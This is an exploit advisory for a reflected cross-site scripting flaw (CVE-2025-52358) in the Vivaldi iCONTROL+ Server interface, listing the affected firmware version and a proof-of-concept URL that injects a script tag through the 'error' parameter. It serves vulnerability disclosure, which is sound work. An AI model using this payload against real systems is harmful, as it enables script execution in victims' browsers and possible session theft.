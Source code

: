 # Exploit Title: Reflected Cross-Site Scripting in Vivaldi iCONTROL+ Server
# Date: 2025-07-09
# Exploit Author: Matei Josephs
# Vendor Homepage:[https://vivaldigroup.it/en/](https://vivaldigroup.it/en/)
# Version: Vivaldi iCONTROL+ Server - Firmware version 4.7.8.0.eden Logic version 5.32
# CVE : CVE-2025-52358


Introduction
=================
Multiple URL parameters within the iCONTROL+ Server interface were found to produce Cross-Site Scripting (XSS). This allows an attacker to run JavaScript in the context of a user's browser.

Proof of Concept
=================
Here is one of the payload which we identified:

```<VIVALDI_IP>/index.php?error=<script>alert(1)</script>```

